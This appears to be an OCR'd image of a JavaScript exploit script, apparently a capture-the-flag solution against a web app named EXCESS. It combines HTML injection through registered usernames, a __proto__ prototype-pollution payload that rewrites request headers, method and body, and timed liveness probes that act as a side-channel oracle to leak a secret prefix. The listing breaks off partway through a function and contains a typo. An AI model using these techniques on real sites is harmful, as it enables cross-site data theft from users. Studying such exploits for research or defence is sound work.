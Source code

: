 ```html
const register = credentials => {
    const url = `${EXCESS_URL}/api/register`;

    return fetch(url, {
        method: 'POST',
        body: credentials,
        mode: 'cors',
    }).then(x => true).catch(x => false);
};

const constructCredentials = prefix => {
    const random = Math.random().toString();

    const html = (
        `<object data='/api/messages?content=${prefix}'>` +
            `<img src='/api/message/${random}%ff' loading='lazy'>` +
        `</object>`
    );

    return `name=${html}&password=x`;
};

const constructPollution = credentials => {
    const pollution = [
        ['__proto__', 'headers', [['Range', 'bytes=17-']]],
        ['__proto__', 'method', 'POST'],
        ['__proto__', 'body', credentials],
    ];

    return JSON.stringify(pollution);
};

const livenessProbe = async results => {
    return fetch(EXCESS_URL, { method: 'HEAD', mode: 'cors', cache: 'no-store' })
            .then(_ => results.push('alive'))
            .catch(_ => results.push('dead'));
};

const startLivenessCheck = (ctx, timeout) => {
    ctx.probes = [];
    ctx.results = [];
    ctx.initialized = true;

    ctx.interval = setInterval(
        () => ctx.probes.push(livenessProbe(ctx.results)),
        timeout,
    );
};

const stopLivenessCheck = async ctx => {
    if (ctx.initialized !== true) {
        return;
    }

    clearInterval(ctx.inverval);
    await sleep(100);

    await Promise.all(ctx.probes);

    return ctx.results;
};

const testPrefix = async (wnd, prefix) => {
```
